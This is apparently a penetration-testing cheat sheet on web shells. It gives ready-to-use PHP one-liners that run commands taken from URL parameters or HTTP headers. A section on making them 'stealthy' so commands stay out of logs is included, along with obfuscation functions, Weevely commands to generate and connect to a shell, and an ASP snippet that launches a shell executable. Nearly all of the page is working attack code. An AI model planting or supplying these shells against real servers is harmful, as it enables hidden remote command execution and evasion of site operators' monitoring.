 # Web Shells

You have access to different kinds of webshells on Kali here:

```text
/usr/share/webshells
```

### PHP <a id="php"></a>

This code can be injected into pages that use php.

```text

# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```text
http://192.168.1.103/index.php?cmd=pwd
```

#### Make it stealthy <a id="make-it-stealthy"></a>

We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.

```text
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>

# I have had to use this one
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

#### Obfuscation <a id="obfuscation"></a>

The following functions can be used to obfuscate the code.

```text
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

#### Weevely - Incredible tool! <a id="weevely---incredible-tool"></a>

Using weevely we can create php webshells easily.

```text
weevely generate password /root/webshell.php
```

Not we execute it and get a shell in return:

```text
weevely "http://192.168.1.101/webshell.php" password
```

### ASP <a id="asp"></a>

```text
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

### References <a id="references"></a>

* [http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/](http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/) 
* [http://www.binarytides.com/web-shells-tutorial/](http://www.binarytides.com/web-shells-tutorial/)

